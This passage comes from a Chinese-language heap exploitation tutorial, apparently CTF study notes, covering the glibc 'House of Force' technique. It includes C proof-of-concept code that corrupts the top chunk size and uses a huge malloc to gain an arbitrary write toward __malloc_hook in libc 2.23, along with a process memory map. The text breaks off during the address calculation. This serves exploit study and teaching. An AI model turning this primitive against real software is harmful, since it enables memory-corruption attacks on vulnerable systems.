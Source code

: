 ## 示例2

增大 top chunk 指针，修改位于其下面（高地址）的内容

```c++
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;                 //<=== 修改top chunk size
    malloc(140737345551056); //<=== 增大top chunk指针
    malloc(0x10); // <=== 分配堆块实现任意写
}
```

与示例1基本相同，唯一不同点即是增大top chunk指针的malloc申请的大小不同，尝试修改 `malloc_hook`, `malloc_hook`位于 libc.so的全局变量
查看内存布局：

```s
nop@nop-pwn:~$ cat /proc/6736/maps
00400000-00401000 r-xp 00000000 08:01 1570115                            /home/nop/Desktop/hof
00600000-00601000 r--p 00000000 08:01 1570115                            /home/nop/Desktop/hof
00601000-00602000 rw-p 00001000 08:01 1570115                            /home/nop/Desktop/hof
00602000-00623000 rw-p 00000000 00:00 0                                  [heap]
7ffff7a0d000-7ffff7bcd000 r-xp 00000000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7bcd000-7ffff7dcd000 ---p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7dcd000-7ffff7dd1000 r--p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7dd1000-7ffff7dd3000 rw-p 001c4000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7dd3000-7ffff7dd7000 rw-p 00000000 00:00 0
7ffff7dd7000-7ffff7dfd000 r-xp 00000000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
7ffff7fd7000-7ffff7fda000 rw-p 00000000 00:00 0
7ffff7ff7000-7ffff7ffa000 r--p 00000000 00:00 0                          [vvar]
7ffff7ffa000-7ffff7ffc000 r-xp 00000000 00:00 0                          [vdso]
7ffff7ffc000-7ffff7ffd000 r--p 00025000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
7ffff7ffd000-7ffff7ffe000 rw-p 00026000 08:01 1313664                    /lib/x86_64-linux-gnu/ld-2.23.so
7ffff7ffe000-7ffff7fff000 rw-p 00000000 00:00 0
7ffffffde000-7ffffffff000 rw-p 00000000 00:00 0                          [stack]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]

```

heap 的基址在 0x00602000，libc的基址在 0x7ffff7a0d000

通过增大 top chunk 指针的值来实现对`malloc_hook`的写：

1. `malloc_hook`的地址: 0x7ffff7dd1b10
